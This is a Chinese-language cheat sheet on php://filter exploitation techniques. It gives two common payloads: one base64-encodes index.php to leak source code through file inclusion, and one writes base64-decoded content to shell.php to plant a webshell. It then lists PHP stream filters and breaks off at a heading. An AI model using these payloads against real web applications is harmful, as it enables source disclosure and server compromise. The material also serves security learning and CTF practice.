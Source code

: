 [TOC]



# php://filter利用手法

常见payload

`file=php://filter/read=convert.base64-encode/resource=index.php`



`php://filter/write=convert.base64-decode/resource=shell.php`



```bash
resource=<要过滤的数据流>     这个参数是必须的。它指定了你要筛选过滤的数据流。
read=<读链的筛选列表>         该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
write=<写链的筛选列表>    该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
<；两个链的筛选列表>        任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。
```





### 字符串过滤器

```bash
string.rot13  进行rot13转换
string.toupper  将字符全部大写
string.tolower  将字符全部小写
string.strip_tags 去除空字符、HTML 和 PHP 标记后的结果。功能类似于strip_tags()函数，若不想某些字符不被消除，后面跟上字符，可利用字符串或是数组两种方式。（自PHP 7.3.0起已弃用此功能。）
```



### 转换过滤器

```
convert.base64-encode
convert.base64-decode
```



### 压缩过滤器

```
zlib.deflate 压缩
zlib.inflate 解压
bzip2.compress
bzip2.decompress
```





### 加密过滤器
